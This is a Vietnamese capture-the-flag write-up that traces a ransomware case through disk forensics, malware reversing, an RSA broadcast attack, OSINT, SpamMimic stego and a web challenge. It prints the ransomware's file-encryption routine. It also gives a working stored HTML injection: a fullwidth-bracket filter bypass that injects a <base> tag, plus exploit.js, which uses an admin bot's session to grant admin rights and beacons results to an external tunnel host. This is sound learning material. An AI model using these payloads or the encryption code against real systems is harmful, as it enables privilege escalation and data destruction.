# Mission Impossible 9

## Mô tả

Challenge cung cấp một file: `Mission Impossible 9.ad1`. Mục tiêu là phân tích dữ liệu trong file, lần theo dấu vết ransomware, dịch ngược file thực thi, giải đầy đủ 5 phần crypto, stego, rev, web, OSINT để ghép được 5 mảnh flag.

Trong quá trình điều tra có các hướng chính:

- Forensics: file `.ad1`, xem cây thư mục, tìm file nghi vấn, lịch sử thực thi và dữ liệu bị mã hóa.
- Reverse/Malware: phân tích `animegirl.exe`, unpack payload và xác định cơ chế ransomware.
- Crypto/OSINT: tìm private key khớp public key RSA, chall Crypto mảnh flag osint, giải mã file `.ptitenc`, đồng thời giải một bài RSA broadcast để lấy mảnh flag crypto.
- Stego: đọc dữ liệu mail Outlook sau khi giải mã, decode nội dung spam bằng SpamMimic để lấy mảnh flag stego.
- Web: từ URL trong README ransom note, khai thác stored HTML injection + admin bot để nâng quyền rồi đọc flag web.

## Phân tích

Bước đầu tiên là mở file bằng FTK Imager.



Trong FTK Imager, đi tới thư mục người dùng:

```text
[root]/Users/Lionel Messi
```

Ở thư mục gốc của user Lionel Messi xuất hiện các file đáng chú ý:
```
README.txt
animegirl.exe
*.ptitenc
```



Đây là các dấu hiệu rất rõ của một vụ mã hóa dữ liệu bằng ransomware. File `README.txt` đóng vai trò ransom note, `animegirl.exe` là file thực thi nghi vấn, còn các file có đuôi `.ptitenc` nhiều khả năng là dữ liệu đã bị mã hóa.

File `README.txt` có nội dung như sau:

```text
You need the decryption key ?!
Send me 36 million VND through this website: http://144.79.188.36:8080/
---w4nn4-cry---
```

Từ ransom note này có thể rút ra hai thông tin quan trọng. Thứ nhất, máy nạn nhân đã bị ransomware tấn công và dữ liệu đã bị mã hóa. Thứ hai, attacker để lại một website đòi tiền tại địa chỉ:
```
http://144.79.188.36:8080/
```
Địa chỉ này sau đó được dùng làm điểm bắt đầu cho phần web.

và đặc biệt ta thấy một phần `username` được đặt cuối file `README.txt` này là `w4nn4-cry`, liệu `username` này cho ta biết thông tin gì nhỉ?

File `animegirl.exe` là file thực thi đáng nghi nhất vì nó nằm cùng thư mục người dùng và xuất hiện trong bối cảnh ransomware. File `Emberbound.exe.ptitenc` là một file đã bị mã hóa vì có hậu tố `.ptitenc`. Do đó, hướng điều tra tiếp theo là kiểm tra xem `animegirl.exe` có từng được chạy hay không, và nếu có thì nó đã sinh ra hành vi gì. 

Trên Windows, thư mục `Prefetch` lưu dấu vết các chương trình từng được thực thi. Vì vậy, ta tiếp tục kiểm tra:

```text
[root]/Windows/Prefetch
```

Trong thư mục này có 2 file Prefetch quan trọng là:





Điều này cho thấy không chỉ `animegirl.exe` đã được chạy, mà sau đó còn có một file khác tên `payload.exe` được thực thi.

Ta export hai file Prefetch này ra rồi phân tích bằng `sccainfo`. `sccainfo` là tool dòng lệnh của bộ `libscca`, dùng để parse file Windows Prefetch `.pf`. Prefetch là artifact Windows tạo ra khi một chương trình được chạy, bên trong thường có tên executable, số lần chạy, thời điểm chạy gần nhất và danh sách file/thư viện/đường dẫn mà chương trình đã tham chiếu. Vì `.pf` của Windows có thể bị nén và có cấu trúc riêng, dùng `strings` nhiều khi không ra gì rõ ràng. `sccainfo` sẽ đọc đúng cấu trúc Prefetch nên phù hợp hơn để lấy bằng chứng.

Sau đó chạy:

```bash
sccainfo ANIMEGIRL.EXE-BCBD4C12.pf
sccainfo PAYLOAD.EXE-82310E74.pf
```

Các dòng đầu xác nhận file Prefetch này thuộc về `PAYLOAD.EXE`, chương trình đã chạy 2 lần:



Trong danh sách `Filenames`, `sccainfo` cho thấy payload thật sự được chạy từ thư mục tạm `CTFPACK-*`:

```text
Filename: 2 : \VOLUME{...}\USERS\HA DUY LONG\APPDATA\LOCAL\TEMP\CTFPACK-35E3C21B85DBB50B3D16C18187227844\PAYLOAD.EXE
```

Các dòng `_MEI56042` và `PYTHON313.DLL` là dấu hiệu payload là chương trình Python đóng gói bằng PyInstaller, vì PyInstaller thường tự bung runtime vào thư mục tạm `_MEI...` khi chạy:



Các dòng sau là bằng chứng payload đã tham chiếu tới ransom note và file `Emberbound.exe` trước/sau mã hóa:



Ngoài ra, output còn có attachment Outlook `QuaTangCuocSong.zip` và bản bị mã hóa `.ptitenc`:



Như vậy luồng lây nhiễm hợp lý là: nạn nhân nhận và chạy `animegirl.exe`, loader này chạy `payload.exe`, payload mã hóa file gốc thành `.ptitenc`, sau đó xóa file gốc và để lại `README.txt`.

**Reverse ransomware và hàm `encrypt_file`**

Từ dấu vết Prefetch, mình tiếp tục export `animegirl.exe` và mở bằng Ghidra. Chương trình có gọi `FindResourceW`, `SizeofResource`, `LoadResource`, `LockResource` để đọc payload nhúng trong resource:

```text
Type     : 10, tức RCDATA
ID       : 12353
Language : 1033
```

Resource này có magic `RCPACK01`, bên trong chứa payload được mã hóa bằng ChaCha20. Sau khi giải mã, payload là một file PE được đóng gói bằng PyInstaller. Trích PyInstaller ra thu được script Python `mal.py` và RSA public key 2048-bit nhúng trong malware.

Phần quan trọng nhất trong `mal.py` là hàm `encrypt_file`

```python
def encrypt_file(filepath, rsa_key):
    try:
        with open(filepath, "rb") as f:
            plaintext = f.read()

        if not plaintext:
            return

        aes_key = get_random_bytes(32)
        iv = get_random_bytes(16)

        cipher_aes = AES.new(aes_key, AES.MODE_CBC, iv)
        pad_len = 16 - (len(plaintext) % 16)
        padded = plaintext + bytes([pad_len]) * pad_len
        ciphertext = cipher_aes.encrypt(padded)

        cipher_rsa = PKCS1_OAEP.new(rsa_key)
        enc_aes_key = cipher_rsa.encrypt(aes_key)

        newpath = filepath + ".ptitenc"
        with open(newpath, "wb") as f:
            f.write(len(enc_aes_key).to_bytes(4, "little"))
            f.write(enc_aes_key)
            f.write(iv)
            f.write(ciphertext)

        os.remove(filepath)
        print(f"[+] Encrypted: {filepath} -> {newpath}")
    except Exception as e:
        print(f"[-] Failed: {filepath} - {e}")
```

Nhìn vào hàm này có thể rút ra luồng xử lý:

```text
1. Đọc toàn bộ nội dung file gốc.
2. Nếu file rỗng thì bỏ qua.
3. Sinh AES key 32 byte và IV 16 byte.
4. Padding dữ liệu theo PKCS#7.
5. Mã hóa dữ liệu bằng AES-256-CBC.
6. Mã hóa AES key bằng RSA-OAEP với public key nhúng trong malware.
7. Ghi dữ liệu ra file mới có hậu tố `.ptitenc`.
8. Xóa file gốc bằng `os.remove(filepath)`.
```

Trong `encrypt_directory`, chương trình dùng `os.walk(root)` để duyệt cả thư mục con. Nó bỏ qua `README.txt`, file executable hiện tại và các file đã có hậu tố `.ptitenc`; các file còn lại đều được đưa vào `encrypt_file`.

Từ thứ tự ghi file trong `encrypt_file`, có thể suy ra format `.ptitenc`:

```text
Offset 0x000, 4 byte    : độ dài RSA ciphertext, uint32 little-endian
Offset 0x004, 256 byte  : RSA-OAEP ciphertext chứa AES key
Offset 0x104, 16 byte   : IV của AES-CBC
Offset 0x114 trở đi     : AES-CBC ciphertext
```

Viết gọn:

```text
uint32_le(256) || RSA_OAEP(aes_key) || IV || AES_CBC(PKCS7(plaintext))
```

Đến đây ta đã biết cách `.ptitenc` được tạo ra, nhưng payload chỉ chứa RSA public key chứ không có private key.

Vì vậy mình cần tìm private key để giải mã trực tiếp các file `.ptitenc`. Một hướng hợp lý là bám theo chữ ký `w4nn4-cry` trong ransom note. Ta tiến hành dùng blackbird để osint theo `username` này.



Kết quả Blackbird trả về 7 nơi có khả năng tồn tại username `w4nn4-cry`.

Truy cập lần lượt từng trang mình phát hiện ra profile của trang Chess có một mảnh của Osint:

```
_i_h1ding_fr0m_h1m
```



Sau đó truy cập GitHub của `w4nn4-cry`:



Trên github của ta có thể quan sát được có một repo là `cry` có vẻ giống như một chall Crypto RSA và một repo private-key mà ta cần tìm. 



Trước hết ta thử giải chall Crypto này: có 3 ciphertext được mã hóa cùng plaintext với RSA exponent nhỏ `e = 3`, mỗi ciphertext dùng một modulus 1024-bit khác nhau. Ba modulus đôi một nguyên tố cùng nhau:

```text
gcd(n1, n2) = 1
gcd(n1, n3) = 1
gcd(n2, n3) = 1
```

Đây là Håstad broadcast attack. Khi cùng một message `m` được mã hóa thành:

```text
c1 = m^3 mod n1
c2 = m^3 mod n2
c3 = m^3 mod n3
```

và ba modulus nguyên tố cùng nhau, dùng CRT để khôi phục:

```text
C = m^3 mod (n1*n2*n3)
```

Nếu `m^3 < n1*n2*n3`, lúc này `C` chính là `m^3` trên số nguyên. Lấy căn bậc ba nguyên của `C` sẽ thu được plaintext.

Script giải crypto:

```python
from math import gcd

e = 3

n1 = 122838135340909352326740828694749384108927470495079309117908226522976922099369356554812443194084073889024495102337612935517854498296908424197578312637952587334637338087685858624852094395948416117277214971347418755417712837496740992315700915605856413611490251385294298871043399844054195464751661410434270405459
c1 = 118912096877272244334790260968536884238737086234654043800948006880995177068630638411272928484073278484105146257460715578341588864575340782295116972447500311948769351973217213007239156104165984884271329024536316148475870050873978328430456240684825802813477487002240905540249408576783117743238528488917081743311

n2 = 103281086763561036594276157057182806575537162654607341521798794866512679857902564191833379471138537094234378701462976358518336997862828780630274604756212398770849820109002368649866675142121995487682076457058603052721142185210129269761862009071448039014590431831040033176770991570835878072836287324266270036309
c2 = 98417159515202976259509992459443587660034754808052196154824800095429344561171563940036588827304915847677176168447673552599906201176341747590268576547914232984216567811711983792512556168796402340128339488176779600471047187547630854358271825837436151000520583393160155017696492637577458510464400797243369827749

n3 = 94487596064327005247552643342847005188063683236248850288356093717648160355961952139154123283479254520047182805381860753654360486566134652503289451177686827116733693087044467745393210506638262230012714467525228193834278830185672789533419837911446135688675747765080457516044347172598925833895253364568851320697
c3 = 67042615310866520311275459842470953675691781249430592276251328938654287165838332408821709272389726185368748773671571385944460344761661236633592360074986930687039247293055899941750750799288895991700377270833423201241759736911984420722044488718935818608319164903353966866418853795368828399735083741667264492447

pairs = [(n1, c1), (n2, c2), (n3, c3)]

for i in range(3):
    for j in range(i + 1, 3):
        assert gcd(pairs[i][0], pairs[j][0]) == 1


def crt(congruences):
    N = 1
    for n, _ in congruences:
        N *= n

    x = 0
    for n, c in congruences:
        m = N // n
        inv = pow(m, -1, n)
        x = (x + c * m * inv) % N

    return x


def iroot3(x):
    lo, hi = 0, 1
    while hi ** 3 <= x:
        hi *= 2

    while lo + 1 < hi:
        mid = (lo + hi) // 2
        if mid ** 3 <= x:
            lo = mid
        else:
            hi = mid

    return lo, lo ** 3 == x


C = crt(pairs)
m, exact = iroot3(C)

print("cube_exact", exact)
pt = m.to_bytes((m.bit_length() + 7) // 8, "big")
print(pt.decode())
```

Kết quả:

```text
cube_exact True
utf-8 [EE-BCAST v2.6|ALL|HIGH] FLAG=_h3_3ncryp7_3v3ryth1ng
```

Mảnh crypto là:

```text
_h3_3ncryp7_3v3ryth1ng
```

Tiếp theo ta có repo private-key:




Sau khi có private key, giải mã các file `.ptitenc` theo đúng format đã reverse:

1. Đọc 4 byte đầu để lấy `wrapped_key_len`.
2. Đọc `wrapped_key_len` byte tiếp theo làm RSA-OAEP wrapped AES key.
3. Dùng private key RSA-OAEP giải ra AES key 32 byte.
4. Đọc 16 byte IV.
5. AES-CBC decrypt ciphertext còn lại.
6. Gỡ PKCS#7 padding.

Script giải mã có thể viết lại như sau:

```python
from pathlib import Path
import argparse
import hashlib
import struct

from Crypto.Cipher import AES, PKCS1_OAEP
from Crypto.Hash import SHA1
from Crypto.PublicKey import RSA
from Crypto.Util.Padding import unpad


def parse_ptitenc(blob: bytes):
    if len(blob) < 4:
        raise ValueError("file too small")

    wrapped_len = int.from_bytes(blob[:4], "little")
    off = 4

    wrapped_key = blob[off:off + wrapped_len]
    off += wrapped_len

    iv = blob[off:off + 16]
    off += 16

    ciphertext = blob[off:]

    if wrapped_len != 256:
        raise ValueError(f"unexpected RSA wrapped key length: {wrapped_len}")
    if len(wrapped_key) != 256:
        raise ValueError("truncated RSA wrapped key")
    if len(iv) != 16:
        raise ValueError("truncated IV")
    if len(ciphertext) == 0 or len(ciphertext) % 16 != 0:
        raise ValueError("AES-CBC ciphertext length is invalid")

    return wrapped_key, iv, ciphertext


def decrypt_ptitenc(private_key_pem: bytes, encrypted_blob: bytes) -> bytes:
    wrapped_key, iv, ciphertext = parse_ptitenc(encrypted_blob)

    rsa_key = RSA.import_key(private_key_pem)
    if not rsa_key.has_private():
        raise ValueError("need RSA private key, not public key")

    aes_key = PKCS1_OAEP.new(rsa_key, hashAlgo=SHA1, label=b"").decrypt(wrapped_key)
    if len(aes_key) != 32:
        raise ValueError(f"unexpected AES key length: {len(aes_key)}")

    padded_plain = AES.new(aes_key, AES.MODE_CBC, iv).decrypt(ciphertext)
    return unpad(padded_plain, 16)


def is_pe(data: bytes) -> bool:
    if len(data) < 0x40 or data[:2] != b"MZ":
        return False
    pe_off = struct.unpack_from("<I", data, 0x3C)[0]
    return pe_off + 4 <= len(data) and data[pe_off:pe_off + 4] == b"PE\x00\x00"


def main():
    parser = argparse.ArgumentParser()
    parser.add_argument("private_key", type=Path, help="RSA private key PEM found from OSINT")
    parser.add_argument("input", type=Path, help="input .ptitenc file")
    parser.add_argument("output", type=Path, help="decrypted output file")
    parser.add_argument("--expect-pe", action="store_true", help="check output starts with MZ/PE")
    args = parser.parse_args()

    plaintext = decrypt_ptitenc(args.private_key.read_bytes(), args.input.read_bytes())

    if args.expect_pe and not is_pe(plaintext):
        raise SystemExit("decryption worked but output is not a PE file")

    args.output.write_bytes(plaintext)
    print(f"[+] wrote: {args.output}")
    print(f"[+] size : {len(plaintext)} bytes")
    print(f"[+] sha256: {hashlib.sha256(plaintext).hexdigest()}")


if __name__ == "__main__":
    main()
```

Mình tiến hành giải mã `Emberbound.exe.ptitenc` và thu được `Emberbound.exe`, tức file gốc trước khi bị ransomware mã hóa. Từ đây, thay vì chỉ dừng ở một file, ta áp dụng cùng cách giải mã cho các artifact `.ptitenc` khác trong AD1 để tìm thêm dữ liệu liên quan đến nguồn lây.

Challenge cung cấp file PE Windows 64-bit: `Emberbound.recovered.exe`. Khi chạy, chương trình là một game nhỏ gồm 3 màn. Màn cuối là boss:

```text
03 / THE HOLLOW REGENT
```

Mục tiêu của bài là lấy mảnh flag được sinh ra sau khi game đạt trạng thái thắng.

File bị pack bằng Themida hoặc WinLicense. Vì vậy không phân tích trực tiếp file ban đầu mà chạy chương trình rồi dump module đã unpack:



Sau khi có dump, load file unpacked vào IDA và tìm các chuỗi liên quan tới màn thắng:


Xref tới chuỗi `THE HOLLOW CROWN HAS FALLEN` dẫn tới hàm chính của game. Trong hàm này, biến `dword_140153180` được dùng làm state chính. Nhánh đáng chú ý nhất là state `4`, tương ứng với màn thắng.

Trong state `4`, game hiển thị màn thắng và cho phép bấm `C` để copy message:

```c
if (IsKeyPressed(0x43))
    copy_to_clipboard(&unk_140155868);
```

Đồng thời khi reset, chương trình xóa buffer:

```c
memset(&unk_140155868, 0, 0x11);
```

`0x11 = 16 byte message + 1 byte null`, nên `unk_140155868` chính là buffer chứa mảnh flag cần tìm.


Xref tới `unk_140155868` cho thấy trước khi chuyển sang state thắng, chương trình gọi:

```c
ctx = sub_1400049B0();
sub_140004A90(ctx, &unk_140155868);
dword_140153180 = 4;
```

Vì vậy `sub_140004A90` là hàm sinh message cuối cùng.



Đầu hàm `sub_140004A90`, chương trình xóa output buffer rồi kiểm tra context:

```c
memset(out, 0, 0x10);
out[0x10] = 0;

if (ctx == NULL)
    return;

if (*(uint32_t *)(ctx + 0x20) != 0x28)
    return;
```

Nghĩa là message chỉ được sinh khi counter trong context bằng `0x28`, tức `40`. Tuy nhiên không thể chỉ sửa counter thành `40`, vì 32 byte đầu của context cũng bị biến đổi sau mỗi lần update và được dùng làm key giải mã ở bước sau.

Context ban đầu được khởi tạo như sau:

```text
ctx[0x00:0x10] = data tại 0x140104780
ctx[0x10:0x20] = data tại 0x140104790
ctx[0x20:0x24] = counter = 0
```

Mỗi lần update, chương trình dùng counter hiện tại để chọn một packet dài `0x42c` byte từ bảng tại `0x1400FA0A0`, rồi gọi hàm update context:

```text
packet = 0x1400FA0A0 + counter * 0x42c
domain = 0x57000000 + counter
ctx = update(ctx, packet, domain)
counter++
```

Counter chạy từ `0` đến `0x27`, tổng cộng 40 lần. Đây là lý do phải mô phỏng đủ 40 update thay vì patch thẳng sang màn thắng.


Khi context hợp lệ, `sub_140004A90` lấy blob mã hóa tại:

```text
0x1400F7F20
```

Blob ban đầu dài `0x1F61` byte. Chương trình giải mã 8 lớp, mỗi lớp dùng key lấy từ kết quả lớp trước:

```python
packet = img[0xF7F20:0xF7F20 + 0x1F61]
key = ctx[:32]

for i in range(8):
    pt = box_decrypt(key, 0x46000000 + i, packet)
    key = pt[:32]
    packet = pt[32:]
```

Sau 8 lớp này, dữ liệu còn lại tiếp tục được xor với keystream từ hàm `sub_140004A00`, rồi chương trình kiểm tra checksum và chạy một VM nhỏ.

VM đọc instruction theo dạng:

```text
1 byte opcode + 4 byte immediate đã mã hóa
```

PC bắt đầu từ `0x325`. Mỗi vòng VM giải mã immediate bằng công thức phụ thuộc PC, thực thi opcode qua jump table, rồi cuối cùng ghi ra 16 byte output. 16 byte đó chính là message được copy vào `unk_140155868`.



Thay vì chơi game, ta mô phỏng trực tiếp toàn bộ thuật toán trong Python:

1. Khởi tạo context.
2. Update context đủ 40 lần.
3. Giải blob cuối qua 8 lớp.
4. Giải stream cuối.
5. Chạy VM để lấy 16 byte message.

Script: [solve_emberbound.py](./solve_emberbound.py)



Mảnh rev:

```text
_th3_r13l_h4ck3r
```

Hướng điều tra tiếp theo là Outlook, vì trong AD1 xuất hiện một attachment Outlook đã bị mã hóa:

```text
Users/Lionel Messi/AppData/Local/Microsoft/Olk/Attachments/.../QuaTangCuocSong.zip.ptitenc
```


`Olk` là vùng dữ liệu/cache của Outlook mới trên Windows. Trong đó, thư mục `Attachments` chứa file đính kèm đã được Outlook tải về, còn `EBWebView` chứa dữ liệu web/cache của Outlook chạy trên WebView.

Điều này cho thấy ransomware đã mã hóa một attachment Outlook tên `QuaTangCuocSong.zip`. Vì file ZIP này liên quan trực tiếp tới `animegirl.exe`, ta tiếp tục giải mã các artifact trong `Olk` để khôi phục dữ liệu email và tìm mail đã mang attachment độc hại vào máy nạn nhân.

Trong dữ liệu Outlook sau giải mã có một email đáng chú ý tại:

```
Users/Lionel Messi/AppData/Local/Microsoft/Olk/EBWebView/Default/IndexedDB/https_outlook.office.com_0.indexeddb.leveldb/000004.log.ptitenc
```

có nội dung:


```text
Sender: Cristiano Ronaldo <toilacristianoRonaldo@outlook.com>
Recipient: toilaLionelMessi@outlook.com.vn
Time: 2026-09-09T17:48:30+07:00
Subject: Dear my friend, Mohamed Sati
Attachment: QuaTangCuocSong.zip
```

Attachment `QuaTangCuocSong.zip` chứa `animegirl.exe`, giải thích vì sao file này xuất hiện trên máy nạn nhân. Nội dung mail nhìn như một đoạn spam vô nghĩa, nhưng đây là steganography dạng SpamMimic.



Đưa phần body mail vào trang decode của SpamMimic:



Kết quả decode ra mảnh đầu, ta được mảnh của Stego là phần đầu của flag:

```text
PTITCTF{i_f0und_th3_l3tt3r_0f
```

Điểm vào của phần web là URL để lại trong ransom note `README.txt`:

```text
http://144.79.188.36:8080/
```



Khi mở URL, trang trả về ứng dụng **Whisper** với hai form:

- `POST /register` để tạo tài khoản.
- `POST /login` để đăng nhập.

Đồng thời sau quá trình recon mình phát hiện có tồn tại route: `/admin/flag`.



Nhưng bị cấm vì tài khoản của mình chỉ có role là member, vì vậy mục tiêu của mình phải làm là nâng tài khoản lên role admin để đọc được mảnh flag này.

Tiếp theo ở `/rooms` sẽ hiển thị chín phòng khảo sát:



tất cả 9 phòng này có form gửi câu trả lời và có route review riêng - tức dữ liệu gửi vào đó nhiều khả năng sẽ đưa tới trình duyệt của reviewer bot. Mình thử gửi payload dạng HTML đơn giản, ví dụ thẻ ``, để kiểm tra xem dữ liệu có được render lại thành HTML thật hay không. Kết quả cho thấy có request được gửi ra ngoài, chứng tỏ ít nhất có khả năng chèn HTML vào nội dung review.









Sau khi loay hoay với cả 9 phòng thì mình nhận ra chỉ có phòng số 4 là payload có thể hoạt động được vì thế trong phần write up này mình sẽ làm luôn với phòng số 4.



Ba route của phòng này đều là: `GET /r/partners` cho biết form và tham số cần gửi, `POST /r/partners` lưu câu trả lời vào server, còn `GET /review/render?r=partners` là nơi renderer đọc lại dữ liệu đã lưu. 



Gửi một chuỗi thử nghiệm vô hại vào `POST /r/partners` rồi mở lại `GET /review/render?r=partners`. Request review hiển thị lại nội dung đã gửi trong:

```html
<div class="body">nội dung câu trả lời</div>
```

bên cạnh đó, response hiển thị dòng dạng `Account #979`, cho thấy backend có quản lý người dùng theo ID. 



Từ đó có thể suy luận rằng ứng dụng nhiều khả năng tồn tại các API thao tác với user, account, ví dụ `/api/user/979/...`, `/api/users/979/...`, `/api/account/979/...` hoặc `/api/accounts/979/...`. Sau quá trình ffuf mình đã tìm được api đúng là `/api/user/979/role`. 



Endpoint này hỗ trợ method POST, nên nhiều khả năng đây là API dùng để thay đổi role của user.

Trong quá trình fuff mình còn tìm được một api khác, endpoint này trả về CSRF token. 



Vì request đổi role là request POST, token này gần như chắc chắn sẽ cần được gửi kèm khi gọi API.

Lúc này luồng mong muốn là:
```
1. Lấy CSRF token từ /api/csrf
2. Gửi POST tới /api/users/979/role
3. Đổi role của user 979 thành admin
4. Dùng cookie sid của user 979 để đọc /admin/flag
```

Vấn đề là tài khoản của mình không đủ quyền gọi trực tiếp API đổi role. Vì vậy cần làm cho reviewer bot, vốn có session quyền cao hơn, thực hiện request này thay mình.

và trang review cũng chèn sẵn một script:

```html
<script nonce="..." src="app/review-probe.js"></script>
``` 

Trang có CSP và script này có nonce hợp lệ, nên việc chèn thêm một thẻ `<script>` mới sẽ khó chạy được. Tuy nhiên, `src="app/review-probe.js"` lại là đường dẫn tương đối. Nếu mình chèn được thẻ `<base>`, mình có thể thay đổi cách trình duyệt resolve đường dẫn tương đối này.

Nói cách khác, mình không cần chèn script mới. Mình chỉ cần lợi dụng thẻ script hợp lệ có sẵn của trang, rồi ép nó tải JavaScript từ server của mình.

Để reviewer bot tải được JavaScript, mình cần một server public. Vì bot chạy trên máy của challenge, không thể dùng `localhost` hay `127.0.0.1`. Do đó mình dùng Pinggy để public server local ra Internet.

Mình tạo file `server.py` như sau:

```py
from http.server import BaseHTTPRequestHandler, ThreadingHTTPServer

class Handler(BaseHTTPRequestHandler):
    def do_GET(self):
        print("[HIT]", self.path, flush=True)

        if self.path.split("?", 1)[0].endswith(".js"):
            try:
                body = open("exploit.js", "rb").read()
            except FileNotFoundError:
                body = b"console.log('exploit.js not ready yet')"

            self.send_response(200)
            self.send_header("Content-Type", "application/javascript")
            self.send_header("Content-Length", str(len(body)))
            self.end_headers()
            self.wfile.write(body)
            return

        self.send_response(200)
        self.send_header("Content-Type", "image/gif")
        self.send_header("Content-Length", "0")
        self.end_headers()

    def log_message(self, *args):
        pass

ThreadingHTTPServer(("127.0.0.1", 9471), Handler).serve_forever()
```

File server.py này có hai nhiệm vụ.

Thứ nhất, nếu có request tới một đường dẫn kết thúc bằng `.js`, ví dụ:
```
/app/review-probe.js
```
server sẽ đọc file `exploit.js` và trả về nội dung của file đó với `Content-Type: application/javascript`.

Điều này có nghĩa là mình không cần tạo đúng thư mục `app/review-probe.js`. Chỉ cần bot request tới đường dẫn `.js`, server sẽ trả về payload trong `exploit.js`.

Thứ hai, nếu có request tới các đường dẫn khác, ví dụ:
```
/pe?status=200&body=...
```
server sẽ trả về response rỗng dạng ảnh GIF. Phần quan trọng không phải response này, mà là dòng log:
```
[HIT] /pe?status=200&body=...
```
Dòng log này giúp mình biết payload đã chạy trong trình duyệt của bot và đã gửi kết quả callback về server của mình.

Chạy server:



Sau đó dùng Pinggy để public port 9471:



Pinggy sẽ trả về một URL public
```
http://etfgh-27-79-160-233.run.pinggy-free.link:36049/
```

URL này sẽ trỏ về server local đang chạy ở `127.0.0.1:9471`.

Tiếp theo tạo file `exploit.js` cùng thư mục với `server.py`:

```js
(async()=>{
  const O = location.origin;
  const ping = q => {
    new Image().src = "https://etfgh-27-79-160-233.run.pinggy-free.link:36049/pe?" + q;
  };

  try {
    const t = await (await fetch(O + "/api/csrf", {
      credentials: "same-origin"
    })).json();

    const r = await fetch(O + "/api/users/979/role", {
      method: "POST",
      credentials: "same-origin",
      headers: {
        "Content-Type": "application/json",
        "X-CSRF-Token": t.token
      },
      body: JSON.stringify({
        role: "admin"
      })
    });

    ping("status=" + r.status + "&body=" + encodeURIComponent(await r.text()));
  } catch(e) {
    ping("err=" + encodeURIComponent(String(e)));
  }
})();
```

Payload này hoạt động như sau.

Đầu tiên:
```js
const O = location.origin;
```
Do file JavaScript được load vào trong trang review của challenge, nên `location.origin` lúc này là:
```
http://144.79.188.36:8080
```
chứ không phải URL Pinggy.

Tiếp theo, payload gọi:
```js
fetch(O + "/api/csrf", {
  credentials: "same-origin"
})
```
Request này được thực hiện trong trình duyệt của reviewer bot, nên cookie session của bot sẽ tự động được gửi kèm. Kết quả trả về là CSRF token hợp lệ của chính session bot.

Sau đó payload gọi API đổi role:
```js
fetch(O + "/api/users/979/role", {
  method: "POST",
  credentials: "same-origin",
  headers: {
    "Content-Type": "application/json",
    "X-CSRF-Token": t.token
  },
  body: JSON.stringify({
    role: "admin"
  })
})
```

Ở đây `979` là `UID` của tài khoản mình. Mục tiêu là dùng quyền của bot để đổi role của tài khoản mình thành admin.

Cuối cùng:
```js
new Image().src = "http://.../pe?" + q;
```

Dòng này dùng để gửi kết quả về server của mình. 

Kiểm tra public URL có trả JavaScript không:



Như vậy server đã sẵn sàng

Nếu gửi trực tiếp payload ASCII như:
```js
<base href="http://etfgh-27-79-160-233.run.pinggy-free.link:36049/">
```
bộ lọc sẽ nhận diện dấu `<` và `>`, sau đó escape. Khi đó response chỉ hiển thị text như:
```js
&lt;base href="..."&gt;
```
Payload không trở thành thẻ HTML thật, nên thẻ `<base>` không có tác dụng.





Để bypass, mình dùng hai ký tự fullwidth:
```
﹤  U+FE64
﹥  U+FE65
```
Hai ký tự này nhìn giống `<` và `>`, nhưng không phải ký tự ASCII `<` và `>`. Vì bộ lọc chỉ kiểm tra ký tự ASCII, payload có thể đi qua. Sau đó, khi renderer dựng trang review, các ký tự này được chuẩn hóa thành `<` và `>` thật.

Có thể tạo body URL-encoded bằng Python:

```bash
export BASE="http://etfgh-27-79-160-233.run.pinggy-free.link:36049/"

python3 - <<'PY' > payload.txt
import os
from urllib.parse import urlencode

base = os.environ["BASE"]
payload = f"\ufe64base href={base}\ufe65"
print(urlencode({"body": payload}))
PY
```

Payload thu được sẽ có dạng:

```
body=%EF%B9%A4base+href%3Dhttp%3A%2F%2Fetfgh-27-79-160-233.run.pinggy-free.link%3A36049%2F%EF%B9%A5
```

Sau đó gửi payload này vào phòng `partners` số 4:



Thẻ `base` đã inject thành công vào trang:



Thành công nâng cấp tài khoản của mình lên role admin





Truy cập `/admin/flag` để lấy được mảnh web.



Mảnh web:

```text
_c4nt_f1nd_m3_h3r3
```

### Flag

Ghép các mảnh đã có ta được flag hoàn chỉnh:

```text
PTITCTF{i_f0und_th3_l3tt3r_0f_i_h1ding_fr0m_h1m_th3_r13l_h4ck3r_h3_3ncryp7_3v3ryth1ng_c4nt_f1nd_m3_h3r3}
```
